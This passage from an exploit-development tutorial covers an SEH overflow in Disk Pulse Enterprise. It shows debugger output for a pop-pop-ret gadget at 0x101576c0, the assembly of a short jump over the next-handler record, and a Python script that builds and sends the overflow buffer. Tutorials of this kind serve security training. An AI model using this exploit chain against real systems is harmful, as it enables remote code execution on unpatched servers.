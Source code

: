 Break on the P/P/R and assemble a short jump over the *Next* structure exception handler:

```
PS > Restart-Service "Disk Pulse Enterprise"; .\DbgX.Shell.exe -pn diskpls.exe -c 'g; bp 0x101576c0; g'; sleep 2; python C:\sehof_ppr.py

Breakpoint 0 hit
eax=00000000 ebx=00000000 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=101576c0 esp=01c4b8f8 ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16450:
101576c0 58              pop     eax
0:012> t
eax=77e06f82 ebx=00000000 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=101576c1 esp=01c4b8fc ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16451:
101576c1 5b              pop     ebx
0:012> t
eax=77e06f82 ebx=01c4ba00 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=101576c2 esp=01c4b900 ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
libspp!pcre_exec+0x16452:
101576c2 c3              ret
0:012> t
eax=77e06f82 ebx=01c4ba00 ecx=101576c0 edx=77e06fa0 esi=00000000 edi=00000000
eip=01c4ff54 esp=01c4b904 ebp=01c4b918 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
01c4ff54 41              inc     ecx
0:012> dds eip L4
01c4ff54  41414141
01c4ff58  101576c0 libspp!pcre_exec+0x16450
01c4ff5c  43434343
01c4ff60  43434343
0:012> a
01c4ff54 jmp 0x01c4ff5c
01c4ff56 
0:012> u eip L1
01c4ff54 eb06            jmp     01c4ff5c
```

Update your script with the disassembled jump value.

{% code title="sehof_nseh.py" %}
```python
#!/usr/bin/env python3

size = 6000

exp  = LE(0x06eb9090)  # (NSEH) jmp +06
exp += LE(0x101576c0)  # (PPR)  pop eax; pop ebx; ret
#exp += b'\x90\x90'                # (NSEH) offset for the 'eb 06' part of the jmp instruction

filler = b'A' * (2499 - 4)
junk   = b'C' * (size - len(filler + exp))

buf = filler + exp + junk
send(buf)
```
{% endcode %}
